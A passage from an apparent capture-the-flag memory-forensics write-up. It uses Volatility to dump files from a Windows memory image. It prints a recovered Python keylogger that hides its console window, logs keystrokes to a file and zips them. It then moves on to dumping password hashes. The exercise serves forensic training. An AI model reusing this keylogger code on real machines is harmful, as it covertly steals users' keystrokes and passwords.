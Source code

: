 **volatility -f memory.raw --profile=Win7SP1x64 dumpfiles -Q 0x000000007e57f3e0 -n --dump-dir .**

and here's the content of the dumped file:
```python
import pynput
from zipfile import ZipFile
from pynput.keyboard import Key, Listener 
   
keys = [] 

def hide():  # This function hides the GUI so victim doesn't know he's infected
    import win32console,win32gui
    window = win32console.GetConsoleWindow()
    win32gui.ShowWindow(window,0)
    return True

def on_press(key):  # When victim presses key 
    keys.append(key)   # Add key to list
    write_file(keys)   # Write key to file

def write_file(keys): # This writes key list to a file
    with open("C:\Users\Semah\Documents\bm90IG5lZWQgdG8gZGVjb2RlIG1l\aSdtIGp1c3QgYSB0cm9sbA==\ZXh0cmEgZmlsZQ==\bG9ncw==", 'w') as f: 
        for key in keys:  
            k = str(key).replace("'", "") 
            f.write(k+' ')
               
def on_release(key):  # When victim releases key
    if key == Key.esc:  # If the released key is the Escape key
		zipObj = ZipFile('malmalmal.zip', 'w')  # Open malmalmal.zip file
		zipObj.write('C:\Users\Semah\Documents\bm90IG5lZWQgdG8gZGVjb2RlIG1l\aSdtIGp1c3QgYSB0cm9sbA==\ZXh0cmEgZmlsZQ==\bG9ncw==')  # Take contents of file where we wrote keys and put them into zip file
		zipObj.close()  # Close zip file
        return False


with Listener(on_press = on_press, on_release = on_release) as listener:  
    listener.join()
```
I added the comments to better explain what is happening here. Basically, this script records keyboard touches and saves them into the malmalmal.zip file. We got a new artifact that we can extract so let's search for it.
We can find an entry in our list of files:
```
0x000000007e4ef450      2      0 RW---- \Device\HarddiskVolume1\Users\Semah\Downloads\malmalmal.zip
```
So let's extract it and analyze it:

**volatility -f memory.raw --profile=Win7SP1x64 dumpfiles -Q 0x000000007e4ef450 -n --dump-dir .**

However, this archive is again password protected so we can't go on here. The next steps are a bit more random. It unfortunately misses the clear narrative we had before. For example based on the python script the malmalmal.zip file shouldn't be password protected but it still is. So let's dive deeper into the confusing world of memory analysis
## Dumping password hashes
If we look closer at the description again, we can find the following statement: **He changed the password and used it to protect a file containing access to my secret file. But it's hashed now ...**
It seems that the attacker installed the keylogger to get the user's password, logged in with it, changed it and used the changed password to secure a file containing access to the secret file (maybe the malmalmal.zip file ?) . Then he hashes it. So first of all we need to find the current password. Volatility has a plugin called hashdump that dumps NT/LM hashes. The command we need is:

